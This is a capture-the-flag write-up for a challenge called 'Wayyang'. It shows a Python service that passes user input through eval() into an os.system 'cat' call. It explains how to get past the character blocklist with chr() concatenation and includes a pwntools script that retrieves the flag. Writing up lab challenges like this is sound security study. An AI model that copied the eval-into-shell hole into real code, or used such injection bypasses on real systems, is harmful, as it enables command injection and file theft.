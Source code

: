 # Wayyang

![chall](./Images/wayyang.PNG)

[Files](./Files/pwn_wayyang.zip)
In this challenge we are given a source file for a python program running on a server. Looking at the code we can see the user is greeted with a menu. 

```python
What would you like to do today?
1. Weather
2. Time
3. Tiktok of the day
4. Read straits times
5. Get flag
6. Exit
>>
```

Looking through the menu, option 4 stands outs.

```python
elif choice == 4:
        filename = input("which news article you want babe :)   ")
        not_allowed = [char for char in FLAG_FILE]

        for char in filename:
            if char in not_allowed:
                print("NICE TRY. WAYYANG SEE YOU!!!!!")
                os.system(f"cat news.txt")
                exit()

        try:
            os.system(f"cat {eval(filename)}")
        except:
            pass
```

Note: `FLAG_FILE = "FLAG"`
We have to some how obfuscate the string "FLAG" so that the call to `eval` reconstructs it and passes it to the system call to `cat`. One way we can do this is to use `chr()` to convert an integer into a character. We can then use '+' to build the characters into the string.

```python
>>>'+'.join(["chr(" + str(ord(c)) + ")" for c in 'FLAG'])
#'chr(70)+chr(76)+chr(65)+chr(71)'
>>>eval('+'.join(["chr(" + str(ord(c)) + ")" for c in 'FLAG']))
#'FLAG'
```

#### Code

```python
from pwn import *

r = remote("fun.chall.seetf.sg", 50008)
r.sendlineafter(b">> ",b"4")
payload = '+'.join(["chr(" + str(ord(c)) + ")" for c in 'FLAG'])
r.sendlineafter(b":)   ", payload.encode())

print(r.recvall())
r.close()
#b'SEE{wayyang_as_a_service_621331e420c46e29cfde50f66ad184cc}'
```